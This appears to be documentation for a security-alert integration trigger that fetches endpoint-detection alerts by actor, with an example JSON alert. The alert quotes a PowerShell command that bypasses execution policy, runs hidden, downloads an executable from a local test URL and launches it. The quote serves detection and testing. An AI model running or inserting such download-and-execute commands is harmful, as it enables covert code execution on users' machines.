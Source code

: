 ### Get Alerts for Actor

This trigger is used to get alerts by an actor.

#### Input

|Name|Type|Default|Required|Description|Enum|
|----|----|-------|--------|-----------|----|
|actor|string|None|True|Actor to get|None|

#### Output

|Name|Type|Required|Description|
|----|----|--------|-----------|
|results|[]alert|True|All alerts that match the given actor|

Example output:

```
{
   "results":[
      {
         "AlertTime":"2018-11-07T18:59:10.2582627Z",
         "ComputerDnsName":"xxxxxxxx",
         "AlertTitle":"Suspicious Powershell commandline",
         "Category":"SuspiciousActivity",
         "Severity":"Medium",
         "AlertId":"636772141692393966_614861963",
         "LinkToWDATP":"https://securitycenter.windows.com/alert/636772141692393966_614861963",
         "Sha1":"1b3b40fbc889fd4c645cc12c85d0805ac36ba254",
         "FileName":"powershell.exe",
         "FilePath":"C:\\Windows\\System32\\WindowsPowerShell\\v1.0",
         "IoaDefinitionId":"7f1c3609-a3ff-40e2-995b-c01770161d68",
         "AlertPart":0,
         "FullId":"636772141692393966_614861963:DEkMrsut7_rqWkwqIaCEcsytUIOl_Dvi56ShSB9wKco=",
         "LastProcessedTimeUtc":"2018-11-07T19:05:01.8993766Z",
         "Source":"EDR",
         "Md5":"95000560239032bc68b4c2fdfcdef913",
         "Sha256":"d3f8fade829d2b7bd596c4504a6dae5c034e789b6a3defbe013bda7d14466677",
         "LogOnUsers":"XXXXXXXX\\Administrator",
         "MachineName":"XXXXXX",
         "InternalIPv4List":"XXX.XXX.XXX.XXX",
         "InternalIPv6List":"XXXXXXXXXX",
         "FileHash":"1b3b40fbc889fd4c645cc12c85d0805ac36ba254",
         "DeviceID":"c6944fa14970633adeecbabc104167ef12557a6f",
         "Description":"A suspicious Powershell commandline was found on the machine. This commandline might be used during installation, exploration, or in some cases with lateral movement activities which are used by attackers to invoke modules, download external payloads, and get more information about the system. Attackers usually use Powershell to bypass security protection mechanisms by executing their payload in memory without touching the disk and leaving any trace.\r\nThe process powershell.exe was executing suspicious commandline \r\npowershell.exe  -NoExit -ExecutionPolicy Bypass -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/1.exe', 'C:\\test-WDATP-test\\invoice.exe'); Start-Process 'C:\\test-WDATP-test\\invoice.exe'",
         "ExternalId":"418AE8AD3F8A1B26F9D02B09E0583A0AEBAC93E7",
         "IocUniqueId":"DEkMrsut7_rqWkwqIaCEcsytUIOl_Dvi56ShSB9wKco="
      }
   ]
}
```
